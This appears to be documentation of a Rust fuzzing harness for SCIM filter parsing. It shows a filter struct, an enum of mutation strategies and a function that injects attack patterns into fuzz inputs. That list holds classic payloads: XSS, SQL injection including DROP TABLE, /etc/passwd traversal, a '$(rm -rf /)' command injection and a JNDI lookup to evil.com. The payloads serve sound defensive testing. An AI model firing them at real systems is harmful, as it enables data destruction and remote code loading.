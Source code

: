 ### Structured Fuzzing Implementation

**SCIM Filter Fuzzing**:
```rust
#[derive(Debug, Arbitrary)]
struct FuzzScimFilter {
    attribute: FuzzAttribute,
    operator: FuzzOperator,
    value: Option<String>,
}

impl fmt::Display for FuzzScimFilter {
    fn fmt(&self, f: &mut fmt::Formatter<'_>) -> fmt::Result {
        match &self.value {
            Some(value) => write!(f, "{} {} \"{}\"", self.attribute, self.operator, value),
            None => write!(f, "{} {}", self.attribute, self.operator),
        }
    }
}
```

**Mutation Strategies**:
```rust
pub enum MutationStrategy {
    Random,      // Pure random input generation
    Injection,   // Injection attack patterns
    Boundary,    // Boundary value testing
    Structure,   // Structure-aware mutations
    Encoding,    // Unicode and encoding attacks
    Size,        // Size and length attacks
}
```

**Attack Pattern Generation**:
```rust
fn inject_attack_patterns(&self, input: &mut Vec<u8>) {
    let patterns = [
        b"<script>alert('xss')</script>",
        b"'; DROP TABLE users; --",
        b"' OR 1=1 --",
        b"javascript:alert('xss')",
        b"../../../etc/passwd",
        b"$(rm -rf /)",
        b"${jndi:ldap://evil.com/}",
        b"{{7*7}}",
        b"<%= 7*7 %>",
        b"eval('alert(1)')",
    ];
    
    // Insert pattern at random position
    let pattern = patterns[fastrand::usize(0..patterns.len())];
    let pos = fastrand::usize(0..input.len());
    input.splice(pos..pos, pattern.iter().copied());
}
```
